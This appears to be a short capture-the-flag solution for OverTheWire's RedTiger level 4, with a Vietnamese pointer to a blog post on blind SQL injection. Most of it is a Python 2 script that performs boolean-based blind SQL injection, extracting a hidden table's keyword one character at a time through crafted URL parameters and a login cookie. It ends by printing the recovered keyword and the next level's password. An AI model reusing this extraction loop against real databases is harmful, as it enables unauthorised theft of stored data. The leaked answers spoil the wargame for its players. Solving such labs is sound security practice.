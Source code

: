 đọc lỗi này ở:
http://voice0fblackhat.blogspot.com/2012/01/detailed-boolean-based-blind-injection.html

```sh
import urllib2
import re
headers1 = {'Cookie': 'level4login=there_is_no_bug'}
url1="http://redtiger.labs.overthewire.org/level4.php?id=1%20and%20ascii(substring((SELECT%20keyword%20FROM%20level4_secret)"
ketqua=''
for i in range(1,27):
	for j in range(48,122):		
		url=url1+',%d,1))=%d'%(i,j)
		line=urllib2.Request(url=url,headers=headers1)
		line2=urllib2.urlopen(line).read()
		if "1 rows" in line2:
			ketqua=ketqua+j
			print j
			break
print ketqua
```
keyword: killstickswithbr1cks!
The password for the next level is: there_is_a_truck 
